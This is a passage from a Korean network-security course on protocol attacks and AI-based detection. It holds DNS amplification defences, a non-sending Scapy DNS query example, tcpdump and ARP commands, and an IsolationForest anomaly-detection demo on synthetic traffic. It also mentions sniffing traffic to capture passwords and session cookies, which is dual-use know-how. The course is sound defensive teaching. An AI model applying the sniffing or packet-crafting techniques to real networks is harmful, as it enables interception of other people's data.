*   **ANY 쿼리:** `ANY` 타입 쿼리의 비정상적인 증가.

**[방어 전략]**
*   **DNS 서버 설정 강화:** 재귀 쿼리(Recursive Query)를 허용하는 IP를 제한하고, 불필요한 재귀 쿼리를 비활성화합니다.
*   **Rate Limiting:** DNS 쿼리/응답 속도를 제한합니다.
*   **DDoS 방어 서비스:** 클라우드 기반 DDoS 방어 서비스를 활용하여 대규모 공격을 완화합니다.
*   **DNSSEC (DNS Security Extensions):** DNS 응답의 무결성을 검증하여 DNS 스푸핑을 방지합니다.

#### PoC: `Scapy`를 이용한 DNS 쿼리 패킷 생성 (개념)

```python
# ⚠️ Scapy는 설치가 필요합니다: pip install scapy
from scapy.all import IP, UDP, DNS, DNSQR, send

# 💡 DNS 쿼리 패킷 생성 PoC
def dns_query_packet_generator(target_dns_ip, query_domain):
    print(f"--- 🌐 DNS 쿼리 패킷 생성 시작 ---")
    
    # DNS 쿼리 패킷 생성
    # IP 계층: 출발지 IP는 로컬, 목적지 IP는 대상 DNS 서버
    # UDP 계층: 출발지 포트는 무작위, 목적지 포트는 53 (DNS)
    # DNS 계층: 쿼리 섹션에 질의할 도메인과 타입 (A 레코드)
    dns_query_packet = IP(dst=target_dns_ip)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname=query_domain, qtype="A"))
    
    print(f"  - 생성된 DNS 쿼리 패킷: {dns_query_packet.summary()}")
    
    # 실제 DNS 쿼리 전송 (응답을 받으려면 send 대신 sr1 사용)
    # response = sr1(dns_query_packet, verbose=0, timeout=2)
    # if response and response.haslayer(DNS):
    #     print(f"  - DNS 응답: {response[DNS].an.rdata}")
    # else:
    #     print("  - DNS 응답 없음 또는 오류")
    print("--- 🌐 DNS 쿼리 패킷 생성 완료 (전송은 하지 않음) ---")

# 예시 사용
# dns_query_packet_generator("8.8.8.8", "malicious.com")
```

---

## 4. 💻 프로토콜 분석을 위한 Linux 도구

네트워크 프로토콜을 분석하고 모니터링하는 데 유용한 Linux 명령어를 소개합니다.

### 4.1. 🕵️ 패킷 캡처 및 분석: `tcpdump` / `Wireshark`

네트워크 인터페이스를 통해 지나가는 패킷을 캡처하고 분석합니다.

```bash
# tcpdump: CLI 기반 패킷 캡처 도구
tcpdump -i eth0 -n -s 0 port 80 or port 443 # eth0 인터페이스에서 80 또는 443 포트 트래픽 캡처

# Wireshark: GUI 기반 패킷 분석 도구
# Wireshark는 tcpdump로 캡처한 .pcap 파일을 열어 상세 분석 가능
```

> **모의 해킹 관점:**
> 
> *   **스니핑 (Sniffing):** 네트워크 트래픽을 가로채어 민감 정보(비밀번호, 세션 쿠키)를 탈취합니다.
> *   **공격 패턴 분석:** 공격 트래픽을 캡처하여 공격자의 전술, 사용된 페이로드 등을 분석합니다.
> *   **포렌식 분석:** 침해 사고 발생 시 네트워크 패킷을 분석하여 공격자의 행위를 재구성합니다.
> 
> **AI 연동 전략:**
> 
> *   AI는 `tcpdump`로 캡처된 대량의 패킷 데이터를 파싱하여 프로토콜 헤더 필드, 페이로드 내용 등을 특징으로 추출할 수 있습니다.
> *   이를 통해 스니핑 공격, 비정상적인 프로토콜 사용, 악성 페이로드 등을 탐지하는 AI 모델을 훈련할 수 있습니다.

### 4.2. 🗺️ ARP 캐시 확인: `arp -a`

시스템의 ARP 캐시 테이블을 확인합니다. ARP 스푸핑 공격 시 이 테이블이 오염됩니다.

```bash
arp -a
```

> **모의 해킹 관점:**
> 
> *   **ARP 스푸핑 확인:** 게이트웨이 또는 다른 호스트의 IP에 대한 MAC 주소가 비정상적으로 변경되었는지 확인합니다.

--- 

## 👨‍💻 현직자 통합 시나리오: AI 기반 네트워크 이상 탐지 시스템

**[상황]**
AI 보안 엔지니어 '제미니'는 내부 네트워크에서 발생하는 다양한 프로토콜 기반의 공격을 실시간으로 탐지하는 AI 시스템을 구축하고자 합니다. 이 시스템은 각 프로토콜의 특징을 분석하여 정상 트래픽과 비정상 트래픽을 구분해야 합니다.

**[데이터]**
네트워크 트래픽 데이터 (IP, 포트, 프로토콜, 플래그, 페이로드 길이 등)

**[AI 모델 학습 특징]**
*   **TCP:** SYN/ACK 플래그 비율, 연결 설정 시간, 세션 지속 시간, Sequence Number 패턴.
*   **UDP:** 패킷 빈도, 페이로드 크기, Source/Destination Port.
*   **ICMP:** Echo Request/Reply 비율, 패킷 크기, Type/Code.
*   **ARP:** ARP 응답 빈도, MAC 주소 변경 빈도, 게이트웨이 MAC 주소 불일치.
*   **HTTP:** 요청 메서드, URL 길이, 파라미터 패턴, User-Agent, 응답 코드.
*   **DNS:** 쿼리/응답 크기, 쿼리 도메인, 쿼리 타입(ANY 쿼리).

```python
import pandas as pd
import numpy as np
from sklearn.model_selection import train_test_split
from sklearn.ensemble import IsolationForest # 비지도 학습 기반 이상 탐지 모델
from sklearn.metrics import classification_report, confusion_matrix
from sklearn.preprocessing import LabelEncoder, StandardScaler
import io

# --- 1. 가상 네트워크 트래픽 데이터 생성 ---
# 정상 트래픽 (대부분)
normal_data = {
    'src_ip': ['192.168.1.10', '192.168.1.11', '192.168.1.12'] * 100,
    'dst_ip': ['192.168.1.1', '8.8.8.8', '1.1.1.1'] * 100,
    'src_port': np.random.randint(1024, 65535, 300),
    'dst_port': np.random.choice([80, 443, 53, 22], 300, p=[0.4, 0.4, 0.1, 0.1]),
    'protocol_type': np.random.choice(['TCP', 'UDP', 'ICMP'], 300, p=[0.7, 0.2, 0.1]),
    'packet_size': np.random.randint(60, 1500, 300),
    'syn_flag_count': np.random.randint(1, 5, 300), # TCP SYN 플래그
    'ack_flag_count': np.random.randint(1, 5, 300), # TCP ACK 플래그
    'icmp_echo_request_count': np.random.randint(0, 2, 300), # ICMP Echo Request
    'arp_reply_count': np.random.randint(0, 1, 300), # ARP Reply
    'is_attack': [0] * 300
}
normal_df = pd.DataFrame(normal_data)

# 공격 트래픽 (소수)
attack_data = {
    'src_ip': ['203.0.113.5', '203.0.113.6'] * 10, # 외부 공격 IP
    'dst_ip': ['192.168.1.100'] * 20, # 내부 서버
    'src_port': np.random.randint(1024, 65535, 20),
    'dst_port': np.random.choice([22, 3389, 23], 20, p=[0.5, 0.3, 0.2]), # 공격 대상 포트
    'protocol_type': ['TCP'] * 10 + ['UDP'] * 5 + ['ICMP'] * 5, # 프로토콜 혼합
    'packet_size': np.random.randint(40, 80, 20), # 작은 SYN 패킷 또는 ICMP 패킷
    'syn_flag_count': np.random.randint(10, 50, 10).tolist() + [0]*10, # SYN Flooding
    'ack_flag_count': np.random.randint(0, 1, 10).tolist() + [0]*10, # SYN Flooding
    'icmp_echo_request_count': [0]*10 + np.random.randint(10, 50, 5).tolist() + [0]*5, # ICMP Flooding
    'arp_reply_count': [0]*15 + np.random.randint(10, 50, 5).tolist(), # ARP Spoofing
    'is_attack': [1] * 20
}
attack_df = pd.DataFrame(attack_data)

# 데이터 결합
df = pd.concat([normal_df, attack_df], ignore_index=True)

# 문자열 데이터를 숫자로 변환 (Label Encoding)
for col in ['src_ip', 'dst_ip', 'protocol_type']:
    le = LabelEncoder()
    df[col] = le.fit_transform(df[col])

# 특징 스케일링
numerical_features = ['packet_size', 'syn_flag_count', 'ack_flag_count', 'icmp_echo_request_count', 'arp_reply_count']
scaler = StandardScaler()
df[numerical_features] = scaler.fit_transform(df[numerical_features])

X = df.drop('is_attack', axis=1)
y = df['is_attack']

# --- 2. 모델 훈련 (비지도 학습: IsolationForest) ---
# IsolationForest는 이상치(Anomaly)를 탐지하는 데 효과적인 비지도 학습 모델입니다.
# 훈련 데이터에 '정상' 데이터만 있다고 가정하고, '정상' 패턴에서 벗어나는 것을 '이상치'로 판단합니다.
# contamination: 데이터셋에서 이상치의 비율 (여기서는 20/320 = 0.0625)
model = IsolationForest(random_state=42, contamination=0.0625) 
model.fit(X)

# --- 3. 이상치 예측 ---
# -1: 이상치 (공격), 1: 정상
y_pred_anomaly = model.predict(X)
y_pred = np.where(y_pred_anomaly == -1, 1, 0) # -1을 1(공격)로, 1을 0(정상)으로 매핑

print("\n--- 📊 IsolationForest 모델 평가 결과 ---")
print(classification_report(y, y_pred, target_names=['정상', '공격']))
print("\n--- 📈 혼동 행렬 ---")
print(confusion_matrix(y, y_pred))
```
**[시나리오 분석]**
'제미니' 엔지니어는 `IsolationForest`라는 비지도 학습 모델을 사용하여 네트워크 트래픽에서 이상 징후를 탐지하는 시스템을 시연했습니다. 이 모델은 훈련 데이터에 '정상' 트래픽만 있다고 가정하고, '정상' 패턴에서 벗어나는 트래픽을 '이상치(Anomaly)'로 분류합니다. 이를 통해 알려지지 않은 새로운 프로토콜 기반 공격도 탐지할 수 있는 가능성을 보여줍니다. `classification_report`와 `confusion_matrix`를 통해 모델의 성능을 평가하며, 특히 미탐(False Negative)을 줄이는 것이 중요함을 다시 한번 강조했습니다.

---

## ➡️ 다음 단원에서는?

이번 단원에서는 TCP, UDP, ICMP, ARP, HTTP, DNS 등 주요 네트워크 프로토콜의 상세한 작동 원리와 각 프로토콜의 취약점을 이용한 공격 기법, 그리고 AI 모델이 이러한 공격을 탐지하기 위해 어떤 특징을 학습해야 하는지에 대해 구체적으로 학습했습니다.

**다음 단원인 `3. 네트워크 공격과 방어.md`** 에서는, 오늘 배운 프로토콜 기반 공격들을 더욱 심층적으로 다루고, 이러한 공격에 대한 구체적인 방어 전략과 AI 기반 탐지 기법을 학습하게 될 것입니다. SYN Flooding, ARP Spoofing, DNS Amplification 등 실제 공격 시나리오를 바탕으로 AI 모델이 어떻게 효과적으로 대응할 수 있는지 심화 학습합니다.

---

## 📌 요약 정리 (Executive Summary)

1.  **주요 프로토콜 분석의 중요성**: 네트워크 공격은 특정 프로토콜의 취약점을 이용하거나 오용하여 발생하므로, 각 프로토콜의 상세한 작동 원리를 이해하는 것이 공격 원리 이해, 탐지 규칙 설계, AI 특징 추출, 방어 전략 수립에 필수적이다.
2.  **전송 계층 프로토콜**:
    *   **TCP (Transmission Control Protocol)**: 연결 지향, 신뢰성 보장. 3-Way Handshake. SYN Flooding, 세션 하이재킹 공격에 취약. AI는 SYN-ACK 비율, 패킷 빈도, Sequence Number 패턴 등으로 탐지.
    *   **UDP (User Datagram Protocol)**: 비연결 지향, 빠른 전송. UDP Flooding, 증폭 공격에 취약. AI는 UDP 패킷 빈도, 페이로드 크기 등으로 탐지.
3.  **인터넷 계층 프로토콜**:
    *   **IP (Internet Protocol)**: 주소 지정, 라우팅. IP 스푸핑 공격에 취약. AI는 비대칭 라우팅, 내부 IP의 외부 출발지 사용, TTL 값 등으로 탐지.
    *   **ICMP (Internet Control Message Protocol)**: 오류 및 제어 메시지. ICMP Flooding 공격에 취약. AI는 ICMP 패킷 빈도, 페이로드 크기 등으로 탐지.
    *   **ARP (Address Resolution Protocol)**: IP를 MAC으로 변환. ARP 스푸핑 공격에 취약. AI는 ARP 응답 빈도, MAC 주소 변경, 게이트웨이 MAC 주소 불일치 등으로 탐지.
4.  **응용 계층 프로토콜**:
    *   **HTTP (HyperText Transfer Protocol)**: 웹 통신. SQL Injection, XSS, CSRF 등 웹 공격에 취약. AI는 요청 파라미터 패턴, 요청 빈도, User-Agent 등으로 탐지.
    *   **DNS (Domain Name System)**: 도메인 이름 해석. DNS 증폭 공격에 취약. AI는 DNS 응답 크기, 쿼리 빈도, 악성 도메인 쿼리 등으로 탐지.
5.  **AI 기반 탐지 특징**: 각 프로토콜의 공격 유형별로 AI 모델이 학습해야 할 특징(패킷 빈도, 플래그 비율, 페이로드 패턴, IP/MAC 주소 변경 등)을 구체적으로 이해하는 것이 중요하다.
6.  **비지도 학습 (IsolationForest)**: 레이블이 없는 대량의 네트워크 트래픽 데이터에서 '정상' 패턴을 학습하고, '정상'에서 벗어나는 것을 '이상치(Anomaly)'로 분류하여 알려지지 않은 공격을 탐지하는 데 활용될 수 있다.
7.  **보안 관점**: 프로토콜의 모든 필드와 작동 방식은 잠재적인 공격 벡터가 될 수 있으며, 이를 깊이 이해하고 AI 모델에 반영함으로써 더욱 정교하고 능동적인 네트워크 보안 시스템을 구축할 수 있다. `Scapy`와 같은 도구는 프로토콜의 구조를 이해하고 패킷을 조작하는 데 매우 유용하며, AI는 이러한 패킷 데이터를 분석하여 위협을 식별하는 데 활용된다.